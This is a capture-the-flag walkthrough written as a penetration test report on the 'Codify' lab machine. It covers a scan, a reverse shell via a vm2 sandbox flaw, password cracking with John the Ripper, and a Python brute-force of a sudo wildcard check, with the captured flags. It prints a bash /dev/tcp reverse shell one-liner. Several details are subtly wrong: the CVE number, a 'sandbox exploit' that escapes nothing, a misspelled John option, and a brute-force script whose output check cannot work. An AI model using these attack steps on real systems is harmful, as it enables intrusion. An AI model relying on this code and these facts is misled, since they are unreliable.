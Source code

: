 **Penetration Test Report: Codify Systems**

**1. Executive Summary:**

The Codify Systems penetration test was conducted to assess the security posture of the target system. The assessment uncovered multiple vulnerabilities, leading to unauthorized access and privilege escalation. The identified vulnerabilities include a misconfigured website, a known CVE, and an exploitable sudo configuration.

**2. Target Information:**

- **Target Name:** Codify
- **Target IP:** 10.10.11.239

**3. Scanning:**

A comprehensive Nmap scan revealed the following open ports:

```bash
nmap 10.10.11.239
```

- **22/tcp (SSH)**
- **80/tcp (HTTP)**
- **3000/tcp (Unidentified Service)**

**4. Website Analysis:**

Upon connecting to the website at `codify.htb`, it was discovered that the site contains an about section referencing a service named **"VM2."** Further investigation identified a potential vulnerability known as **"VM2 SandBox (CVE-2023-32214)."** This vulnerability allowed for the execution of a reverse shell payload.

**5. Exploitation:**

A GitHub repository was discovered containing a JavaScript code snippet for a reverse shell. Exploiting the CVE with this code successfully provided a reverse shell, granting access to the user account `svc@codify`.

```javascript
// Reverse_shell.js
const { exec } = require('node:child_process')

exec('bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"', (err, result) => {
   if (err){
      console.error("Failed:", err)
      return
    }

console.log(result);})
```

**6. User Escalation:**

Upon gaining access to the user account, a password hash was found in the file `/var/www/contact/joshua.txt`. Using John the Ripper and the `rockyou.txt` password list, the password `spongebob1` was successfully cracked.

```bash
r00t3d@powerthecoder:~$ john --wordlists=rockyou.txt joshua.txt
```

With the obtained credentials (`joshua@codify.htb` and `spongebob1`), access to the user's home directory was achieved, and the user flag (`ff562135f253b8b1bd9261b89a93c6f8`) was retrieved.

**7. Privilege Escalation:**

Executing `sudo -l` revealed that the user was allowed to run the command `/opt/scripts/mysql-backup.sh` with sudo privileges. An investigation into the script exposed a wildcard vulnerability, enabling the extraction of characters from the password.

**8. Exploitation of Sudo Configuration:**

A custom Python script was crafted to exploit the wildcard vulnerability and brute-force the password one character at a time. The script successfully revealed the full password, allowing the user to execute the sudo command and escalate privileges.

```python
# r00t3d.py
import string
import subprocess

r00t3d = list(string.ascii_letters + string.digits)
passwd = ""
check_r00t3d = False

while not check_r00t3d:
    for i in r00t3d:
        cmd = f"echo '{passwd}{i}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        if "Password confirmed!" in output:
            passwd += i
            print(passwd)
            break
    else:
        check_r00t3d = True
```

**9. Root Access:**

With the escalated privileges, the user `joshua` executed `su` to become the root user. The root flag (`7edcb7d5085e52149c3ea3346073df1f`) was obtained.

**10. Recommendations:**

- Regularly update and patch software to address known vulnerabilities.
- Review and tighten sudo configurations to minimize potential abuse.
- Conduct periodic penetration testing to identify and remediate security weaknesses.

This report provides an overview of the penetration test conducted on the Codify Systems target. It is crucial to implement the recommended measures to enhance the overall security posture and mitigate potential risks.
